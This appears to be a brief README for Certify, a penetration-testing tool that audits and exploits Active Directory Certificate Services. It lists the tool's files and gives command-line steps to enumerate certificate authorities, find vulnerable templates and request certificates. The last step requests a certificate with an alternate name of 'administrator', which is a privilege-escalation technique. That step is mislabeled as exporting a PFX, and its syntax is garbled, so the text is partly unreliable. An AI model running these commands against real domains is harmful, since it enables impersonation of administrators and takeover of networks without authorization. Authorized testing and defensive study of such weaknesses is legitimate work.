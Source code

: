 Certify is a tool used for auditing and exploiting Active Directory Certificate Services (AD CS) in penetration testing scenarios. It helps identify misconfigurations and potential security risks related to certificate management.

📌 Available Files:
Certify.exe - The main executable file.

Certify.exe.config - Configuration file for the tool.

Interop.CERTENROLLLib.dll - Required DLL for certificate enrollment operations.

🚀 How to Use:
1️⃣ Enumerate Certificate Authorities (CAs):
Certify.exe cas

2️⃣ Find Vulnerable Certificate Templates:
Certify.exe find vulnerable
3️⃣ Request a Certificate Using a Template:
Certify.exe request /ca:DOMAIN-CA /template:VulnerableTemplate

4️⃣ Export the Certificate as PFX:
./certify.exe request /ca:dc.(domain.)\(domain)-DC-CA /template:vulnerable template /altname:(administrator*)
